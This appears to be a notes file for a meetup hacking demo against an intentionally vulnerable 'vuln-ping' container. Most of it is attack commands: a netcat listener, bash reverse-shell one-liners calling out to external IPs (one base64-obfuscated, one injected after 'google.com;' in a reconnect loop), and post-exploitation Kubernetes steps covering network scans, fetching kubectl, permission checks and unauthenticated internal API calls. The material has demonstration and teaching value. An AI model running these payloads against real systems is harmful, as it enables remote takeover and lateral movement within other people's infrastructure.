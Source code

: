 # docker
```bash
docker build -t biltisberger/vuln-ping:latest .
docker push biltisberger/vuln-ping:latest
docker run -d --name vuln-ping -p 8080:8080 biltisberger/vuln-ping:latest
```

# Listen for incoming connections
```bash
sudo nc -nvl 1338
```

# Connect to the listener
```bash
echo "bash -c 'bash -i >& /dev/tcp/192.168.178.113/1338 0>&1'" | base64
echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3OC4xMTMvMTMzOCAwPiYxJwo= | base64 -d | bash 2>/dev/null

// even better with a loop if the connection dies
google.com;while true; do sh -i >& /dev/tcp/88.198.205.24/9001 0>&1; sleep 1; done
```

# Ok we are on the host
```bash
nmap -sn 10.1.11.0/24 | grep 'Nmap scan report for' | awk '{print $5, $6}'
nmap angular2.bene-default-oi9z17.svc.cluster.local

curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
./kubectl auth can-i --list

curl https://metrics-server.mogenius.svc.cluster.local:443/apis/metrics.k8s.io/v1beta1/pods --insecure

```

# Links
- [https://hub.docker.com/r/biltisberger/vuln-ping](https://hub.docker.com/r/biltisberger/vuln-ping)
- [https://github.com/mogenius/meetup-2024-hack](https://github.com/mogenius/meetup-2024-hack)

# Sources
- [https://www.revshells.com/](https://www.revshells.com/)
- [https://www.youtube.com/watch?v=iD_klswHJQs&t=1209s&ab_channel=JohnHammond](https://www.youtube.com/watch?v=iD_klswHJQs&t=1209s&ab_channel=JohnHammond)
- [https://www.youtube.com/watch?v=c7hLUsUE_Ao&t=183s&ab_channel=DanielLowrie](https://www.youtube.com/watch?v=c7hLUsUE_Ao&t=183s&ab_channel=DanielLowrie)


"services.K8sUpdateDeploymentRequest.Data: readObjectStart: expect { or n, but found \", error found in #9 byte of ...|{\"data\":\"kind: Depl|..., bigger context ...|{\"data\":\"kind: Deployment\\napiVersion: apps/v1\\nmetadata:\\n|..."


# Developer RBAC-User 
- login as the user create a deployment
